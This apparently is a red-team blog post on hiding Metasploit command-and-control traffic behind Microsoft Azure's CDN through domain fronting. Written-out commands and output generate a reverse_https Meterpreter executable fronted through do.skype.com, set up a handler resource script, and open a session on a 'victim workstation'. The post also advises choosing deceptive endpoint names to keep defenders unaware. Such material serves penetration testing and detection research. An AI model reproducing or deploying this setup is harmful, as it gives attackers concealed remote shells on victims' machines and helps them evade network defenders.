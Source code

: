 ```yaml
---
title: "Metasploit Domain Fronting With Microsoft Azure"
date: 2018-04-17T00:24:27-05:00
---
```


Domain fronting has been one of the biggest "new-hotnesses" of the past few years and rightly so. It helps to mask your C2 traffic behind well-known domains and does a fairly good job at keeping defenders in the dark. We've seen plenty of resources setting up domain fronting for [Empire](https://www.xorrior.com/Empire-Domain-Fronting/) and [Cobalt Strike](https://blog.cobaltstrike.com/2017/02/06/high-reputation-redirectors-and-domain-fronting/), which have definitely helped to pave the way. Domain fronting support was [finally added](https://github.com/rapid7/metasploit-framework/pull/8948) into the Metasploit Framework in late 2017 and now we're starting to see [various](https://beyondbinary.io/articles/domain-fronting-with-metasploit-and-meterpreter/) [resources](https://bitrot.sh/post/30-11-2017-domain-fronting-with-meterpreter/) to help set that up for you. 

An observation that I've made is that it seems most people like to use AWS CloudFront as their CDN of choice for domain fronting, and I'll admit I fall guilty to that. Microsoft Azure also has domain fronting capabilities in their CDN infrastructure, so in this post we'll focus on setting up Metasploit domain fronting with Azure.

## Setting Up Azure

The setup for Azure is pretty straight forward and doesn't stray too far from CloudFront, just that you're using a different system. Once in Azure, you'll want to create a CDN resource and create an endpoint for that resource.

![CDN Setup Screenshot](/images/metasploit_azure_domain_fronting/1.png)

There's a few things that we need to take special attention to here:

* **CDN Endpoint Name**: This is what is going to be in your `Host` header in the HTTP request, and what will ultimately point to your C2 infrastructure. You'll want this to be something clever sounding, maybe something to deal with marketing or banking, however you decide to conceal yourself.
* **Origin Hostname**: This is your IP address or DNS name for you C2 infrastructure. This part will *not* be revealed to your end users / blue team. It's pretty much the final piece of glue to connect the CDN to your resources and get domain working.

Now that you've got your CDN and an endpoint created, it's time to wait. It can take the better part of an hour for the endpoint to propogate throughout the CDN. While we wait, we need to make sure we update the endpoint's caching settings. The reason we do this is because we don't want the CDN to act like a *real* CDN and cache our traffic, and instead just use the CDN as a communications channel.

![CDN Cache Screenshot](/images/metasploit_azure_domain_fronting/2.png)

Change your caching and query string caching behaviors to bypass and you'll be all set.

### Finding domain frontable Azure domains

Now that your CDN is setup and propogating, we need to find a high-profile domain name to hide behind that will also work for our CDN. [@a_profligate](https://twitter.com/a_profligate) has a blog post [Finding Domain frontable Azure domains](https://theobsidiantower.com/2017/07/24/d0a7cfceedc42bdf3a36f2926bd52863ef28befc.html) that does a pretty good job explaining how to find a domain to front with. I'm not going to bother re-inventing the wheel here, give that article a read. For the sake of this post, I'll use `do.skype.com` as my front domain.

### Test the CDN

Before we dive into Metasploit, we need to make sure our CDN communication is properly setup. I've got Nginx setup on my C2 server for testing purposes so it should respond the same way hitting it directly and hitting it through the CDN. When hitting it through the CDN with your newly chosen frontable Azure domain, you'll want to set the `Host` header to the FQDN you created before.


```
╭─chiggins at razer in ~
╰─○ curl "https://ohnoitsascarymaliciousdomain.fun"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>

╭─chiggins at razer in ~
╰─○ curl --header "Host: something-clever.azureedge.net" "https://do.skype.com"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>
```

## Setting Up Metasploit

First things first you'll want to generate your payload. Here's the payload getting generated on my C2 host.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfvenom -p windows/meterpreter/reverse_https LHOST=do.skype.com LPORT=443 HttpHostHeader=something-clever.azureedge.net -f exe -o /var/www/html/exploit.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 463 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/exploit.exe
```

Two things to take special note of here:

* **LHOST**: This is going to be the frontable domain you discovered earlier.
* **HttpHostHeader**: This new option is what will set the `Host` entry in your HTTP request. This should be set to your CDN endpoint.

For the sake of simplicity I have a resource script setup so that when I start Metasploit, it'll start up my handler with all the right options.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± cat ~/df_azure.rc
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST do.skype.com
set LPORT 443
set HttpHostHeader something-clever.azureedge.net
set ExitOnSession false
run -j
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfconsole -qr ~/df_azure.rc
[*] Processing /root/df_azure.rc for ERB directives.
resource (/root/df_azure.rc)> use multi/handler
resource (/root/df_azure.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter_reverse_https
resource (/root/df_azure.rc)> set LHOST do.skype.com
LHOST => do.skype.com
resource (/root/df_azure.rc)> set LPORT 443
LPORT => 443
resource (/root/df_azure.rc)> set HttpHostHeader something-clever.azureedge.net
HttpHostHeader => something-clever.azureedge.net
resource (/root/df_azure.rc)> set ExitOnSession false
ExitOnSession => false
resource (/root/df_azure.rc)> run -j
[*] Exploit running as background job 0.

[-] Handler failed to bind to 72.21.81.200:443
msf5 exploit(multi/handler) > [*] Started HTTPS reverse handler on https://0.0.0.0:443

msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_https  https://do.skype.com:443

msf5 exploit(multi/handler) >
```

You'll notice that there's an error binding to `72.21.81.200:443`. That's because that is the IP address of `do.skype.com`, which is fine, because the handler also binds on `0.0.0.0:443` which will work out perfectly for us.

Transfer your payload onto your victim workstation and run it and you should see great success and a meterpreter shell call back!

```
[*] https://do.skype.com:443 handling request from 152.195.6.101; (UUID: 3cxijbex) Staging x86 payload (180901 bytes) ...
[*] Meterpreter session 1 opened (10.2.0.235:443 -> 152.195.6.101:38626) at 2018-04-03 21:02:31 +0000

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1RB861P
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

Because the payload utlizes both domain fromting via `do.skype.com` and HTTPS, the traffic in transit really looks like nothing out of the ordinary.

![Wireshark capture of payload](/images/metasploit_azure_domain_fronting/3.png)

And there you have it -- successful domain fronting with Metasploit via Microsoft Azure! If you have any questions or comments, feel free to hit me up on Twitter [@ch1gg1ns](https://twitter.com/ch1gg1ns).
